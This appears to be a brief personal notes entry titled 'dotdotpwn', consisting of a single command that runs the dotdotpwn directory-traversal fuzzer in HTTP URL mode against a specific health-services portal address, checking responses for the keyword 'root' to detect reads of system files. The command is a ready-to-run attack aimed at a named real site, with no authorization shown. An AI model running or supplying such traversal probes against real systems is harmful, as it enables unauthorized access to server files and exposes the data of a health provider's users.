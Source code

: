 dotdotpwn
========================


    dotdotpwn -m http-url -u https://portaldotitular.healthbit.com.br/sites/portaldotitular.healthbit.com.br/files/TRAVERSAL -k root

![qownnotes-media-gLzeZL](../../media/qownnotes-media-gLzeZL.png)
